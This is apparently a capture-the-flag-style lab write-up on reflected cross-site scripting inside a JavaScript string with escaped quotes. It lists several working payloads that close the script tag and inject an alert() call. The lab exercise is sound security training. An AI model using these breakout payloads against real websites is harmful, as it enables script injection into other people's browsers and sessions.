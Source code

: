 # Reflected XSS into a JavaScript string with single quote and backslash escaped
# Objective
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.\
\
To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

# Solution
## Analysis
Test payload:
```
<img src=0 onerror='alert()'>
```
|![](Images/image-70.png)|
|:--:| 
| *Test payload* |

Above test shows that in order to call alert() function payload must break out of the JavaScript string, break out of `<script>` tag and avoid character `'` being escaped with `/`.

## XSS Exploit
Payload: `'</script> <img src=0 onerror='alert()'>` - character `'` was escaped.

![](Images/image-71.png)

In order to perform attack successfully character `'` can be omitted.

Payload: `'</script> <img src=0 onerror=alert()>`

![](Images/image-72.png)

A simpler solution is to just use `<script>` tag:
Payload: `</script> <script>alert()</script>`

![](Images/image-73.png)

Another solution could be to close open `<script>` tag and open another one with `alert()` function without closing it because closing tag already exists (probably would be still closed automatically in case of absence of closing tag) and comment out rest of the JavaScript code.
Payload: `</script> <script>alert()//`

![](Images/image-74.png)
